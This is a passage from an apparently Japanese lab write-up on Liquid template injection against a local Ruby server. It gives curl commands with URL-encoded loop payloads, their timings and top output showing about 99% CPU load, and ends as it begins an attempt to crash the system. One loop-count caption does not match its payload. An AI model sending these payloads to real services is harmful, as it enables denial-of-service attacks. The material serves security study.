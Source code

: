 <div class="md-code" style="width:100%">

```
# time curl 'http://127.0.0.1:4567/liquid?name=%7B%25+for+i+in+%281..1000%29+%25%7D%0D%0A%7B%25+assign+hoge+%3D+i+%7C+plus%3A+i+%25%7D%0D%0A%7B%25+endfor+%25%7D'
hi
real	0m0.023s
```

</div>

1,000,000 回ループ → 6.387 秒

<div class="md-code" style="width:100%">

```
# time curl 'http://127.0.0.1:4567/liquid?name=%7B%25+for+i+in+%281..1000000%29+%25%7D%0D%0A%7B%25+assign+hoge+%3D+i+%7C+plus%3A+i+%25%7D%0D%0A%7B%25+endfor+%25%7D'
hi
real	0m6.387s
```

</div>

100,000,000 回ループ → 1 分 5.994 秒

<div class="md-code" style="width:100%">

```
# time curl 'http://127.0.0.1:4567/liquid?name=%7B%25+for+i+in+%281..10000000%29+%25%7D%0D%0A%7B%25+assign+hoge+%3D+i+%7C+plus%3A+i+%25%7D%0D%0A%7B%25+endfor+%25%7D'
hi
real	1m5.994s
```

</div>

　top コマンドでサーバ上の負荷を確してみます。「`%Cpu(s): 99.3 us`」となっておりサーバに負荷が掛かっていることが確認できました。  

<div class="md-code" style="width:100%">

```
top - 08:30:47 up 31 min,  2 users,  load average: 0.59, 0.53, 0.26
Tasks: 115 total,   1 running,  69 sleeping,   0 stopped,   0 zombie
%Cpu(s): 99.3 us,  0.7 sy,  0.0 ni,  0.0 id,  0.0 wa,  0.0 hi,  0.0 si,  0.0 st
KiB Mem :  2006252 total,  1560000 free,   249416 used,   196836 buff/cache
KiB Swap:        0 total,        0 free,        0 used.  1614816 avail Mem

  PID USER      PR  NI    VIRT    RES    SHR S %CPU %MEM     TIME+ COMMAND
  2806 root      20   0  319712 111484   8452 S 99.3  5.6   0:04.44 ruby  
```

</div>


### 大量ループでシステムを落とす

 さらにループ回数を増やしてシステムを落とすことが可能かを確認します。

- １. ターミナル（標的）
